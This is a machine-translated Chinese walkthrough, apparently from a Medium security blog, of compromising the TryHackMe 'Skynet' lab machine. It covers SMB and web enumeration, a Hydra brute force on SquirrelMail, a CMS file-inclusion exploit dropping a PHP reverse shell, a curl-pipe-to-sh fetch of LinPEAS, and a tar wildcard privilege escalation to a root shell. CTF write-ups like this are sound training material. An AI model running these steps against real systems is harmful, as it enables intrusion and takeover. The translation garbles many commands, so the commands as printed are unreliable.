# 再见，宝贝

> 原文：<https://infosecwriteups.com/hasta-la-vista-baby-1c5de4e66cac?source=collection_archive---------4----------------------->

## [道德黑客文章和评论](https://medium.com/@vadimpolovnikov)

TryHackMe 天网机器演练

从 tryhackme.com 取回

## [摘要]

TryHackMe Skynet 机器可能是我在枚举和完全妥协之间运行时间最长的一次。它有各种信息收集媒介，如 HTTP、SMB、IMAP、POP3 等。以及针对易受攻击的 CMS 和 tar 实用程序的复杂权限提升方式。

开发组件包括但不限于:

*   Nmap 和 NSE 脚本
*   smbclient 和 rpcclient
*   enum4linux
*   GoBuster
*   硬石膏
*   THC-Hydra
*   利用数据库
*   Python、Bash 和 PHP
*   等等

## [任务 1]

基本 Nmap 扫描:

`nmap -sS -sV -O -T4 <ip-address> -oN basic_scan.nmap`



该扫描揭示了我们可以采取的进一步指纹识别途径，我建议运行以下扫描:

> sudo gobuster dir-u[http://IP-addr](http://ip-addr%20-w%20/usr/share/wordlists/dirb/common.txt)-w/usr/share/word lists/dirb/common . txt
> 
> nmap-script = vuln IP-addr-oN vuln _ scan . nmap
> 
> enum 4 Linux-A IP-addr > SMB _ enum . txt
> 
> nmap-script = SMB-enum-share . NSE IP-addr

Gobuster 的扫描输出:



***/squirrelmail*** 指向基于 web 的邮件服务。它运行在 PHP 上，支持 IMAP 和 SMTP 服务。



来自 ***enum4linux*** 和 Nmap 的***SMB-enum-shares***NSE 脚本的输出有一些关于邮件服务的潜在用户的提示。



用户可能是 milesdyson。但是什么可能是密码呢？

有匿名共享可用，所以下面的 ***smbclient*** 命令会让我们在共享文件夹中:

`smbclient //ip-addr/anonymous`

浏览目录并找到带有密码的文件。我们将使用该文件作为 THC-Hydra 的*输入，用于邮件服务登录暴力破解。*

*用 Burp 套件拦截登录请求…*

**

*…并使用 POST 表单作为 hydra 的 http-form-post 密码攻击的模板。*

**

*登录邮件服务。*

**

*其中一条消息包含我们之前发现的 SMB 共享的 milesdyson 密码。以下命令将完成这项工作:*

*`smbclient -U milesdyson //ip-addr/milesdyson`*

*浏览并下载一个似乎很重要的文件*

*发现隐藏目录后，浏览 CMS 网页…*

**

*…谷歌一下可用的公共漏洞( [Exploit-DB](https://www.exploit-db.com/exploits/25971) ):*

**

*从[漏洞利用数据库](https://www.exploit-db.com/exploits/25971)中检索*

*上面的屏幕截图总结了 CMS 软件上存在的远程文件包含漏洞，并建议了一组进一步的操作。*

*“非 PHP 代码将嵌入到输出中”:*

**

*“将评估此文件中的 PHP 代码”:*

**

*本例中使用的反向 shell 是[pentest monkey PHP-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)。*

*逃离有限外壳的技巧:*

> ***Python-c " import pty；pty.spawn("/bin/bash")"***
> 
> ***出口期限=xterm***

*从这一点出发，我建议您将 [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) Linux 枚举脚本上传到目标机器上，并观察 PE 的潜在向量。我用于脚本上传的方法概述如下:*

1.  *本地机器:***python 3-m http . server 80****
2.  *远程机器:***curl-X GET***[***http://IP-addr/***](http://ip-addr/REVSHELL.php)***linpeas . sh | sh****

*Crontab 作业:*

**

*找到脚本并理解它的作用。*

**

*下面的 [***链接***](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/) 包含了对漏洞的惊人描述一个 ***** 通配符与 ***tar*** 实用程序组合构成一个系统。*

*可以采取以下步骤将您的特权提升到最高级别。*

**

*pentestmonkey Bash 反向外壳*

*现在，在本地机器上启动 NetCat 监听器，等待目标服务器通过根终端连接到您。*

*感谢您加入我的这个 TryHackMe 天网演练，我希望我会看到你的下一个。黑客快乐！*

*如果你想看看我的其他文章和评论，点击**链接**(文章的第一行，就在标题上方)或者选择下面的一些。*

* [## 基于 Python 的盲联合 SQLi

### 了解 Python 如何在速度上击败 Burp Suite，并提高您的黑客效率。

medium.com](https://medium.com/bugbountywriteup/blind-union-based-sqli-with-python-f1a8190feb43)  [## 这个密码管理器安全吗？

### TryHackMe trans over machine 演练，包含 Burp Suite、JavaScript、开膛手 John 和 LinPEAS。

medium.com](https://medium.com/bugbountywriteup/is-this-password-manager-safe-fd8886a78afd)  [## 你邻居的音乐很烂？救援飞机来了！

### 有趣而简单的 Wi-Fi 认证攻击将您的邻居踢出网络。

medium.com](https://medium.com/bugbountywriteup/your-neighbours-music-sucks-aircrack-ng-for-the-rescue-a5124a2e2734)*